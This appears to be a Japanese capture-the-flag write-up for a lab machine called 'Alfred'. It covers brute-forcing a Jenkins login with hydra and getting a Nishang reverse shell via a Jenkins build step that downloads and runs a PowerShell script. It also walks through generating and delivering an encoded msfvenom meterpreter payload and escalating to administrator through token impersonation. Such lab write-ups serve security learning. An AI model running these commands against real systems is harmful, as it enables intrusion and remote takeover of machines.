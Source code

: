 ```yaml
---
title: "Alfred"
date: 2024-03-16T15:31:32+09:00
draft: false
---
```


### user.txt

- windows で jenkin が動いている
  - admin admin で通る
  - ```hydra -l admin -P /usr/share/wordlists/rockyou.txt thm.local -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid" -V -t 64 -I```
- Nishang
  - ローカルの ```Invoke-PowerShellTcp.ps1``` があるディレクトリで http サーバを立てる
  - ```nc -nlvp 1234```
  - jenkins の config -> ビルド -> windows パッチコマンドの実行
    - ```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port```
  - build now でリバースシェルがもらえる

### switch shell

- ```msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=ip LPORT=port -f exe -o rv.exe```
- ローカルで ```python3 -m http.server 8001```
- powershell で ```powershell "(New-Object System.Net.WebClient).Downloadfile('http://ip:port/rv.exe','rv.exe')"```
  - ダウンロードしたので実行する前に metasploit で待ち受け準備
    - ```use exploit/multi/handler```
    - ```set PAYLOAD windows/meterpterer/reverse_tcp```
    - ```set LHOST```
    - ```set LPORT```
- リバースシェルから実行 ```. .\rv.exe```

### root

- アクセストークンに関する脆弱性を利用する
  - windwos ではプロセスとスレッドにアクセストークンが結び付けられており，このトークンにより実行するユーザを識別している
  - トークンの情報は以下
    - ユーザ情報：実行するのはだれか
    - グループ情報：ユーザはどこに属しているか
    - 特権情報：何ができるか（どこまで実行できるか）
  - プライマリアクセストークン
    - 全てのプロセスにはプライマリアクセストークンが付いている
    - 子プロセスには親プロセスのトークンが継承される
  - 偽装トークン
    - 親プロセスとは別の情報が設定されたトークンで，別のユーザのトークンをコピーして作成できるオブジェクト
  - 権限借用レベル
    - 偽装トークンでなりすましたユーザとして行える操作範囲の制限がある
      - SecurityImpersonation：ローカルシステムのクライアントのセキュリティコンテキストを偽装できる
      - SecurityDelegation：リモートもローカルもOK
      - 今回はこれを使う
- ```whoami/priv```
  - SeImpersonatePrivilege とかが enable になっている
- ```use incognito```
- ```load incognite```
- list_tokens -g
  - Delegation Tokens Avilabe が見える
  - BUILTIN/Administrator を使う
  - ```getuid```
  - ```impersonate_token "BUILTIN/Administrators"```
  - ```getuid```
- プロセスの移植
  - ```migrate 668```
